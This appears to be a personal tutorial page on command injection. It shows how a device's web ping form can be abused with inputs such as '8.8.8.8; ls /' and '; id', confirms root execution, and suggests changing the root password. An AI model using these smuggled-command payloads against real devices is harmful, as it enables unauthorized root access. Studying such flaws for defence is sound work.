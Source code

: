 ```yaml
---
title: Hacking into things
tags:
  - linux
  - hacking
  - programming
created: 2023-07-13T19:29:40+02:00
updated: 2023-07-24T18:27:35+02:00
enableToc: true
---
```


This has been something that I've had an interest for for many years and have dabbled in every now and then when I had the chance.

Every now and then you get a device that you soon figure out is running a flavour of Linux and you start wondering, can I get root access to it? 🤔
You start poking around and after a little while you find a HTML form that is not behaving as it should.

## HTML Forms
### Ping prompts
Ping prompts might be the easiest to see why it could be so easy to break.

In the form you might see something along the lines of an `Address` field and a `Submit` button.  
You enter in the address and press the button, a few seconds later you get back a response along the lines of:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.1 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=26.1 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.8 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 26.142/26.944/27.731/0.569 ms
```

If you're familiar with Linux you quickly realize that this is the output of `iputils-ping`.  
What you should also realize is that this command is being called from the application running the webserver.  
With this information we can make some assumptions.

The command to get the exact output (except for the latency times and packet loss if any) is the following:
```
$ ping -c 4 8.8.8.8
```
From this we can extrapolate that the `Address` field from the form is populating the address used by the ping command.

Lets assume the command is run as: `ping -c 4 ${address}`  
This shows that the address is a variable and is populate based on what was entered in the `Address` field.

Now, what would happen if we instead input `8.8.8.8; ls /` in the `Address` field?  
The variable would then be expanded to `ping -c 4 8.8.8.8; ls /` and give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=26.0 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.3 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=28.9 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.995/27.524/28.853/1.037 ms
bin   dev  home  lib64       media  opt   root  sbin  sys  usr
boot  etc  lib   lost+found  mnt    proc  run   srv   tmp  var
```
Notice the directory listing at the bottom.

Now for the final check, instead of listing the directory, we check which user is being used to run the webserver and as an extension the commands.  
This we can achieve with the `id` command and would look like this: `; id`.  
The command will be expanded to `ping -c 4 8.8.8.8; id` and would give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.0 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.976/27.351/27.862/0.796 ms
uid=0(root) gid=0(root) groups=0(root)
```

This shows us that the root user is running the commands and we're already in.  
The only thing to do is to change the password of the root user.  

What we've done in this example is what's called Remote Code Execution (RCE) or Code Injection.